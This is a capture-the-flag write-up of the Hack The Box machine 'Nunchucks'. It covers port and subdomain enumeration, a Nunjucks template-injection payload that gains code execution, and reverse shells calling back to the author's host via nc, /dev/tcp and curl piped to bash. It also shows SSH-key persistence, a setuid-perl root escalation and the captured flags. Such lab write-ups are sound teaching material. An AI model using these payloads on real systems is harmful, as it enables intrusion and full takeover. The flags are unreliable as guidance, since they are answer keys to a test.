

# Nunchucks by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Nunchucks  | 10.10.11.122  | Linux              | 20       | 4.8      | 1308        | 1135        | Yes       | 2021-11-02     | 2021-11-02     | No         | 414          |

## Summary
1. Scan ports -> 22,80,443
2. Try enumerating p80 -> Redirect to p443
3. Enumerate subdomains of `https://nunchucks.htb` -> `https://store.nunchucks.htb`
4. SSTI on `email` form -> RCE as user `david`
5. Reverse shell via TCP -> User shell (`david`)
6. Enumerate capabilites of binaries -> `/usr/bin/perl` with `setuid` capability
7. Execute `perl` exploit `POSIX::setuid(0)` -> Root shell (`root`)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.11.122
PING 10.10.11.122 (10.10.11.122) 56(84) bytes of data.
64 bytes from 10.10.11.122: icmp_seq=1 ttl=63 time=41.7 ms
```

## Nmap port scan
First, we will run a `open ports` scan using nmap:
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.11.122 -v -oG Enum/allPorts
```
We can retrieve the results using the utility `extractPorts`:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.11.122 

	[*] Open ports:  22,80,443 


[*] Ports have been copied to clipboard...

```
Next, we will run a detailed scan:
```bash
❯ nmap -p22,80,443 -A 10.10.11.122 -v -n -oN Enum/targeted
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_http-favicon: Unknown favicon MD5: 4BD6ED13BE03ECBBD7F9FA7BAA036F95
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Issuer: commonName=Nunchucks-CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-30T15:42:24
| Not valid after:  2031-08-28T15:42:24
| MD5:   57fc 410d e809 1ce6 82f9 7bee 4f39 6fe4
|_SHA-1: 518c 0fd1 6903 75c0 f26b a6cb e37d 53b8 a3ff 858b
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### Final nmap report
| Port | Service | Version | Extra |
| :-: | :-: | :-: | :-: |
| 22/tcp | ssh | OpenSSH 8.2p1 | Ubuntu Bionic (4ubuntu0.3) |
| 80/tcp | http | nginx 1.18.0 | - |
| 443/tcp | ssl/https | nginx 1.18.0 | - |

As we don't have credentials, we can't connect to the SSH port. So we will try to connect to the HTTP port.

### Port 80 enumeration
When trying to access to http://10.10.11.122 we are redirected to https://nunchucks.htb. Meaning our enumeration should be directed to the HTTPS port.

### Port 443 enumeration (nunchucks.htb)
#### Technology scan
```
❯ whatweb https://nunchucks.htb
https://nunchucks.htb [200 OK] Bootstrap, Cookies[_csrf], Country[RESERVED][ZZ], Email[support@nunchucks.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.122], JQuery, Script, Title[Nunchucks - Landing Page], X-Powered-By[Express], nginx[1.18.0]
```
The output of `whatweb`, completed with `wappalyzer` gives us:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Cookies | _csrf | - |
| Nginx | 1.18.0 (Ubuntu) | - |
| JQuery | 3.5.1 | - |
| Express | - | - |
| Node.js | - | Programming language | 

#### Subdirectory fuzzing
Use `wfuzz` to enumerate subdirectories in the target domain:
```bash
❯ wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 45,30587 https://nunchucks.htb/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000053:   200        183 L    662 W      9171 Ch     "login"           
000000105:   200        245 L    1737 W     17748 Ch    "terms"           
000000217:   200        187 L    683 W      9487 Ch     "signup"          
000000029:   200        250 L    1863 W     19133 Ch    "privacy"         
000000291:   301        10 L     16 W       179 Ch      "assets"          
000000616:   200        250 L    1863 W     19133 Ch    "Privacy"         
000000825:   200        183 L    662 W      9171 Ch     "Login"           
000002501:   200        245 L    1737 W     17748 Ch    "Terms"           
000004784:   301        10 L     16 W       179 Ch      "Assets"          
000010439:   200        187 L    683 W      9487 Ch     "Signup"          
000013576:   200        187 L    683 W      9487 Ch     "SignUp"          
000020661:   200        187 L    683 W      9487 Ch     "signUp"          
000043401:   200        250 L    1863 W     19133 Ch    "PRIVACY"         
000101629:   200        183 L    662 W      9171 Ch     "LogIn"           
000148853:   200        183 L    662 W      9171 Ch     "LOGIN"      
```
We discovered many subdirectories, some of them not unique, as `/login` and `/LOGIN`.

As the technology scan didn't return any php, there is no point in enumerating `.php` files. Anyway, as we know the domain name, we can try to enumerate the subdomains:
```bash
❯ sudo wfuzz -c -u "https://nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.nunchucks.htb" --hc 404 --hh 30587 -t 100
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"
```
We discovered a new subdomain: `store.nunchucks.htb`.

#### Manual enumeration
We can manually enumerate the webpage. But everything we can try is offline or unavailable.

### Port 443 enumeration (store.nunchucks.htb)
If we open the wepage in https://store.nunchucks.htb we get the following response:

As we can see, there is a form that reads some input and dumps it into the template `You will receive updates on the following email address:{$email}`.
With a simple test, we confirmed that the webpage is vulnerable to SSTI:

Anyway, when we try to inject some simple code, we get asked to introduce a valid email, so we can intercept the request with burpsuite. When we look up the SSTI that is taking plave in the page, we find https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks and the name `nunjucks` is quite a hint. So we can try to inject the payload:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}"}
```
We get the following response:
```json
{"response":"You will receive updates on the following email address: uid=1000(david) gid=1000(david) groups=1000(david)\n."}
```
We discovered that the user is logged in as `david`.

## User shell
First, let's as we know the user name, we can try to access its ssh credentials:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('ls /home/david/.ssh')\")()}}"}
```
Which returned failure. If we execute `which nc` we get the following response:
```json
{"response":"/usr/bin/nc"}
```
So we can try to establish a reverse shell:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('nc 10.10.16.2 3333 -e /bin/bash')\")()}}"}
```
Unsuccessfull, so let's try to run a typical bash TCP reverse shell:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.10.16.2/3333 0>&1')\")()}}"}
```
As it isn't working either, we can try to establish the reverse shell with a curl-python3 method:
Payload:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.16.2:4444/Exploits/reverse_tcp | bash')\")()}}"}
```
Python server:
```bash
❯ echo "bash -i >& /dev/tcp/10.10.16.2/3333 0>&1" > Exploits/reverse_tcp
❯ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
# After launching the payload
10.10.11.122 - - [04/Jun/2022 12:11:33] "GET /Exploits/reverse_tcp HTTP/1.1" 200 -
```
Listening shell:
```bash
❯ nc -nlvp 3333
Connection from 10.10.11.122:57466
bash: cannot set terminal process group (1006): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ whoami 
whoami
david
```
Now let's ensure our persistence by creating some ssh keys:
```bash
david@nunchucks:~$ mkdir .ssh
mkdir .ssh
david@nunchucks:~$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/david/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/david/.ssh/id_rsa
Your public key has been saved in /home/david/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:HgtB4bIsoTK1DLSsSjOTipjMgbYuuGL18/FRC5X0TJs david@nunchucks
The key\'s randomart image is:
+---[RSA 3072]----+
| .    o.   . .   |
|o .  o    . = o  |
|.oo . o    o E   |
|o=.+ o .  .      |
|*O+ o . S. .     |
|@o*o   o oo .    |
|B+. .  .o. .     |
|=.   o  o .      |
|=o    o. .       |
+----[SHA256]-----+
david@nunchucks:~$ cd .ssh      
cd .ssh
david@nunchucks:~/.ssh$ cp id_rsa.pub authorized_keys
cp id_rsa.pub authorized_keys
david@nunchucks:~/.ssh$ cat id_rsa
```
Now, we can copy the `id_rsa` file into `Results/id_rsa` and achieve ssh connection:
```bash
❯ chmod 600 Results/id_rsa
❯ ssh -i Results/id_rsa david@10.10.11.122
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-86-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat  4 Jun 10:17:21 UTC 2022

  System load:             0.0
  Usage of /:              49.2% of 6.82GB
  Memory usage:            50%
  Swap usage:              0%
  Processes:               234
  Users logged in:         0
  IPv4 address for ens160: 10.10.11.122
  IPv6 address for ens160: dead:beef::250:56ff:feb9:766b


10 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct 22 19:09:52 2021 from 10.10.14.6
david@nunchucks:~$ 
```
We obtanied an interactive shell as user `david`.

## Privilege escalation
The first enumeration related to privesc is:
```bash
david@nunchucks:~$ sudo -l
[sudo] password for david: 
david@nunchucks:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
david@nunchucks:~$ groups
david
```
As we can see, david does not have any obvious privileges. We can now run eumeration scripts as linpeas or pspy:
### linpeas.sh
```bash
david@nunchucks:/tmp$ wget http://10.10.16.2:4444/linpeas.sh
david@nunchucks:/tmp$ chmod +x linpeas.sh
david@nunchucks:/tmp$ ./linpeas.sh
```
From where we discover:
- Operative System: `Ubuntu 20.04.3 LTS focal`
- Sudo version: `1.8.31` -> Vuln to CVE-2021-4034
- Local active ports:
  - `3306`: Possible `mysql`
  - `8000`: `node`
  - `8001`: `PM2 v5.1.1`
- Users with shell: `root` and `david`
- Setuid capabilities: `/usr/bin/perl`

From this information we discovered the `pkexec` vulnerability, but this is not the intended escalation. On the other hand, we can see that `/usr/bin/perl` has a `setuid` capability:
```bash
david@nunchucks:/tmp$ cat evil.pl 
#!/usr/bin/perl

use POSIX qw(setuid);

POSIX::setuid(0);
exec "/bin/sh";
david@nunchucks:/tmp$ ./evil.pl 
# whoami
root
```
We obtained a shell as the `root` user.

## CVE
No CVEs were used to pentest this machine.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 7aa2d0889b505f702311ddea4c231cc4 | No | 04-06-2022|
| Root | 2d9ace016caf1773bd4fe802e271c99c | No | 04-06-2022|

## References
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks
- https://gtfobins.github.io/gtfobins/perl/